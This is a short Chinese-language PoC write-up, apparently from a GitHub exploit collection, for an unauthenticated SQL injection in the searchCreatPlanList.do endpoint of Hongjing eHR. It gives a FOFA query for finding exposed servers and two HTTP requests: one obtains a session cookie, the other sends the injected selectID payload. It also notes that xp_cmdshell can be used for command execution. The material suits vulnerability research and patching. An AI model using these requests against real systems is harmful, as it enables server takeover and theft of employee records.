 # 宏景eHR人力资源管理系统接口searchCreatPlanList存在SQL注入漏洞

宏景eHR searchCreatPlanList.do接口处存在sql注入漏洞，未经身份验证的远程攻击者通过利用SQL注入漏洞配合数据库xp_cmdshell可以执行任意命令，从而控制服务器。经过分析与研判，该漏洞利用难度低，建议尽快修复。

## fofa

```
app="HJSOFT-HCM"
```

## poc

第一步:获取cookie
```yaml
GET /templates/index/getpassword.jsp HTTP/1.1
Host: 
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
```
第二步:携带cookie访问

```yaml
GET /train/plan/searchCreatPlanList.do?b_selectPlan=query&selectID=1'%2B(1-@@VERSION)%2B')--+ HTTP/1.1
Host: 
Cookie: JSESSIONID=D3D69E3D8D5CD86DC4B10E91CD2062AB
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
```

![image](https://github.com/user-attachments/assets/25d41e1f-69b3-4694-b3ba-1abeba156a3c)

